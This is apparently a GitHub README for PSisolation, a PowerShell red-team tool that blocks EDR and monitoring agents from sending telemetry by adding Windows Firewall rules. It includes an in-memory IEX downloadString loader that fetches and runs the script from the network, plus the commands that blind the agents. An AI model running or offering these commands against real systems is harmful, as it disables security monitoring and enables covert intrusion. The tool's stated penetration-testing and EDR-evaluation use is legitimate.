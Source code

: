 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes. 

I also wrote this [article](https://blog.y00ga.lol/PERSO/PUBLISH/Article+perso/PSisolation%2C+in+Cyberspace+No+One+Can+Hear+You+Scream#New-NetFirewallRule) if you want to learn a bit more about it

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory

````
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/y00ga-sec/PSisolation/refs/heads/main/PSisolation.ps1')
````

- Block outgoing traffic by running directly

````
Block-MonitoringProc
````
https://github.com/user-attachments/assets/a8b62fc7-5132-477b-9489-c569c41bcc78

- or a specific process you want with : 

````
Block-SpecificProcessTraffic -ProcessPath <executablefull path>
````

- When you're done, run this to remove all rules created by the tool :

````
Unblock-AllFilters
````

https://github.com/user-attachments/assets/a647de1e-9314-4d73-886c-ba8f4cbb7356

------
# But what if the target machine does not use Windows Defende Firewall ?

Well the script got you covered ! Logic is the following :

- If PSisolation detects the victim machine has Windows Firewall enabled --> Simple retrieves EDR services name and associated executable path and create outgoing blocking firewall rules
- Otherwise, PSisolation will :
   - Backup every rule on the machine in a temporary file
   - Create outgoing blocking firewall rules for EDRs
   - Enable Windows Defender Firewall so that the PSisolation blocking rules take effect and disable every rule to avoid blocking production traffic
   - Once you're done and run `Unblock-AllFilters`, the script will restore every rule/rule state from the temporary backup file (which will also delete PSisolation blocking rules)
   - Delete rules backup temporary file
   - Restore Windows Defender Firewall to its previous state 
